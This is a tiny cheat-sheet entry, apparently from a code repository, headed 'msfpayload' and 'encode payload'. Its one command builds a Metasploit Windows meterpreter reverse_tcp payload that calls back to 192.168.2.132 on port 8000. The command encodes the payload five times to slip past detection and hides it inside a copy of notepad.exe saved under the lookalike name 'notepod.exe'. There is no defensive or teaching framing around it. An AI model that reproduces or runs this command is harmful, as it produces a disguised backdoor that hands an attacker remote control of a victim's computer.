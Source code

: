 # msfpayload

##### encode payload

   msfpayload  windows/meterpreter/reverse_tcp LHOST=192.168.2.132 LPORT=8000 R | msfencode -c 5 -t exe -x ~/notepad.exe -k -o notepod.exe
